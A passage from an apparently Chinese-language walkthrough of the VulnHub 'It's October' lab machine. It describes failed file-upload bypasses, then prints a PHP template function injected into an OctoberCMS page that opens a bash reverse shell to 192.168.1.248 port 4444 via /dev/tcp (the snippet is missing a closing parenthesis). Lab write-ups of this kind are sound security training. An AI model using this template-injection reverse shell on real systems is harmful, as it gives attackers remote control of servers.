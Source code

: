     看来不好利用这个

- **.htaccess 上传**

    不出所料,同样无法上传

    ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/It’s_October/It’s_October1/14.png)

- **PHP code execution via asset management**

    本质上还是 php5 后缀绕过,还是无法利用

    ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/It’s_October/It’s_October1/15.png)

---

后来搜了一下在新建页面时可以在模板中注入 php 代码

```php
function onstart(){
              exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.1.248/4444 0>&1'";
}
```
